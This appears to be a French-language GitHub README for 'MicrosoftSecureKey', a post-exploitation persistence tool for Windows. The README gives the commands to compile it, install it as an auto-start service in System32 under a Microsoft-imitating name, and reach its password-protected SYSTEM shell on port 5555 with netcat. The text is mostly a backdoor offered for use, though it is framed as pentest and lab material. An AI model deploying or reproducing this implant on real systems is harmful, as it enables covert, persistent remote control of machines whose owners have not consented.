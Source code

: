 # MicrosoftSecureKey

🔍 MicrosoftSecureKey est un outil de post-exploitation (Pentest ou Read Team) qui permet le maintien d'accès sur un système Windows par le biais d'un mot de passe.
Il fonctionne en mode service Windows, ce qui permet d'ouvrir un port et d'exécuter des commandes à distance avec des droits NT/SYSTEM.

Comment ça marche :

 ✅ Compilation du programme 
 ✅ Installation du service sur le système distant
 ✅ Démarrage du service en mode AUTO
 ✅ Un simple netcat permet d'éxécuter des commandes.

 ⚠️ Une fois le mot de passe saisi, s'il y a un double saut de ligne cela veut dire que l'on est connecté, s'il y a un seul saut de ligne cela veut dire que la connexion a échoué.

Idéal pour les environnements contrôlés, les laboratoires de test, ou pour les administrateurs système qui veulent garder la main à distance sans passer par des solutions complexes.

Compilation :

`x86_64-w64-mingw32-gcc -o MicrosoftSecureKey.exe MicrosoftSecureKey.c -lws2_32`

Installation :

`sc create MicrosoftSecureKey binPath="C:\Windows\System32\MicrosoftSecureKey.exe" start=auto`
`sc start MicrosoftSecureKey`

Command :
`nc IP_SRV 5555`
`Enter Password`
`whoami`


  ## Vidéo de démonstration 
  [![Watch the video](https://github.com/xnom0/MicrosoftSecureKey/blob/main/service_1080p_25fps_10pts.mkv)
